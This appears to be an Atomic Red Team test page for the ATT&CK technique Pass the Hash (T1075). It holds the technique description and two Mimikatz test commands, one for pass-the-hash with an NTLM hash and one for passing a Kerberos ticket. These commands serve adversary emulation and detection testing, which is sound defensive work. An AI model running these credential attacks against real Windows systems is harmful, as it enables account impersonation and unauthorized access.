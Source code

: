 ```yaml
---
title: T1075 - Pass the Hash
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)
<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.<br/> 
<br/>
Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation: NSA Spotting)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - Mimikatz Kerberos Ticket Attack](#atomic-test-2---mimikatz-kerberos-ticket-attack)

<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|

#### Run it with `command_prompt`!

```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```
<br/>
<br/>

## Atomic Test #2 - Mimikatz Kerberos Ticket Attack
Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|

#### Run it with `command_prompt`!

```
mimikatz # kerberos::ptt #{user_name}@#{domain}
```

